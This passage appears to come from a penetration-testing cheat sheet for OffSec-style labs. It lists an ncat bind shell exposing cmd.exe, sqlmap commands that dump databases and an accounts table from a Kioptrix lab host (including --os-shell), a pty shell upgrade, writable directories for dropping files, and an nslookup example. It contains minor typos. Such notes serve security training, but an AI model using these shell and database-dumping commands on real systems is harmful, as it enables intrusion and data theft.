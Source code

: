 
Here is an enxample of ncat
C:\Users\offsec>ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl
root@kali:~# ncat -v 10.0.0.22 4444 --ssl


86) Python Simple http server
 python -m SimpleHTTPServer 8080
 python3 -python3 -m http.server




87) sqlmap
sqlmap -r [text file containing the post request ] -p [parameter-name]


example
sqlmap -r search-test.txt -p tfUPass http://1.1.1.1/bla
root@kali:~# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs        // dump databases
root@kali:~# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --tables -D gallery // dump tables.
root@kali:~# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump // dump all database table entries
--os-shell : ask sqlmap to obtain a shell for you.




--level 4 --risk 3 << will do most of the tests
--batch  : do not ask me any question






88) upgrade a dump shell into a tty
python -c 'import pty; pty.spawn("/bin/bash")'








89) first places to try to put your files in because of permissions
/tmp/" and "/var/tmp/"


90) nslookup
nslookup
> server 10.11.1.220
Default server: 10.11.1.220
Address: 10.11.1.220#53
> set q=ptr
> 10.11.1.115
Server:                10.11.1.220


Address:        10.11.1.220#53


115.1.11.10.in-addr.arpa        name = tophat.acme.local.
